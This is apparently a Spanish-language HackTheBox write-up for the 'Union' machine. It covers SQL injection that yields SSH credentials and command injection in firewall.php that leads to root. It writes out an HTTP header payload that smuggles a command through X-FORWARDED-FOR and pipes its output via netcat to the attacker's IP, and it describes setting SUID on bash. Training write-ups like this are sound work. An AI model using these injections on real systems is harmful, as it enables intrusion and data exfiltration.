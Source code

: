 ```yaml
---
layout: single
title: Union - HackTheBox
excerpt: "Exploitamos una inyección SQL para obtener acceso SSH en la máquina Union de HackTheBox. Luego, escalamos privilegios aprovechando un fallo en firewall.php, logrando ejecución como root"
date: 2025-03-30
classes: wide
header:
  teaser: /assets/images/Union/Union.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
tags:  
  - CTF
  - SQL Injection
  - Web Exploitation
---
```


![](/assets/images/Union/Union.png){:style="max-width:450px;height:auto;"}

## Resumen

La máquina Union de HackTheBox comienza con un escaneo de puertos, donde encontramos un servicio web vulnerable a SQL Injection. Explotamos esta vulnerabilidad para extraer información de la base de datos y obtener credenciales de acceso por SSH. Una vez dentro, identificamos un archivo firewall.php que ejecuta comandos con sudo sin necesidad de contraseña. Aprovechamos esta configuración para escalar privilegios y obtener acceso como root, logrando la explotación completa de la máquina.

## Reconocimiento

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles. Y también ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/Union/Reconocimiento-Puertos-Scripts.png)

El servidor expone los siguientes servicios:

- HTTP en el puerto 80

## Página Web

El servicio web en el puerto 80 parece ser una inscripción para UHC:

![](/assets/images/Union/Web.png)

## Shell

En el servicio web, si añadimos cualquier cosa al campo 'Player Elegibility Check' nos saldrá lo siguiente:

![](/assets/images/Union/Web-Test.png)

Si nos dirigimos donde dice 'Complete the challenge here' nos dirigirá aquí:

![](/assets/images/Union/Web-Flag.png)

Nos dice que pongamos la primera bandera, como no tenemos ninguna, vamos a dirigirnos de vuelta al formulario anterior, para comprobar si es vulnerable a inyección SQL:

![](/assets/images/Union/Web-Test-SQLI.png)

Confirmamos la vulnerabilidad a SQLI y procedemos a enumerar las tablas de la base de datos.

![](/assets/images/Union/Tables.png)

Una vez listadas las tablas, vemos que hay dos columnas ('flag' y 'players'), vamos a listar las columnas:

![](/assets/images/Union/Columns.png)

Y listamos el contenido:

![](/assets/images/Union/Columns-Content.png)

Una vez tenemos la 'flag', nos dirigimos a la web, para ponerlo en el formulario donde nos pedía la flag:

![](/assets/images/Union/Open-SSH.png)

Nos dice que a nuestra IP le han dado acceso por SSH al servidor, si realizamos un nuevo escaneo con nmap, vemos que se ha abierto el puerto 22:

![](/assets/images/Union/Nmap-SSH.png)

Como todavía no tenemos credenciales, vamos a buscar archivos php en la web con la herramienta 'wfuzz':

![](/assets/images/Union/Fuzz.png)

El archivo 'config.php' podría contener algo.

Si miramos el contenido del archivo 'config.php' mediante 'SQLI', podemos ver las credenciales para conectarnos vía SSH:

![](/assets/images/Union/Credential-SSH.png)

Nos conectamos:

![](/assets/images/Union/Shell.png)

Y una vez dentro, la bandera 'user' se encuentra en el directorio 'home' del usuario 'uhc':

![](/assets/images/Union/User-Flag.png)

## Escalada de Privilegios

Si nos dirigimos al directorio '/var/www/html/', veremos que existe un archivo llamado 'firewall.php':

![](/assets/images/Union/Firewall-File.png)

Observamos que el usuario 'www-data' ejecuta un comando con 'sudo' a través de la función 'system', lo que permite ejecutar comandos con privilegios elevados.

Analizando el código marcado, nos damos cuenta de que la petición se está realizando mediante la herramienta 'curl', si tratamos de hacer nosotros una petición editando la cabecera, podemos llegar a ejecutar comandos:

![](/assets/images/Union/Curl-Vuln.png)

    -H # Header
    X-FORWARDED-FOR: # Header http
    1.1.1.1 # Ip
    ; # Concatenar
    sudo -l | nc 10.10.16.21 4646 # Comando bash
    ; # Cierre de la concatenación

    -H # Header
    Cookie: PHPSESSID= # Cookie
    p3m9e... # La cookie que nos da la página firewall.php cuando metimos la flag correcta

Como vemos que el usuario 'www-data' tiene permisos '(ALL : ALL) NOPASSWD: ALL', vamos a hacer otra petición para dar permisos 'suid' al binario '/usr/bin/bash', para escalar al usuario privilegiado:

![](/assets/images/Union/Sudo-Bash.png)

Ahora que somos el usuario privilegiado, si nos dirigimos al directorio 'home' del usuario 'root', nos encontraremos con la bandera 'root':

![](/assets/images/Union/Root-Flag.png)

### Conclusión

Esta máquina demuestra la importancia de proteger las aplicaciones web contra inyecciones SQL y de restringir adecuadamente los permisos de ejecución de comandos en entornos con privilegios elevados. También resalta la utilidad de analizar scripts y configuraciones en busca de posibles vectores de escalada de privilegios. En un entorno real, mitigar estas vulnerabilidades evitaría accesos no autorizados y compromisos de seguridad.
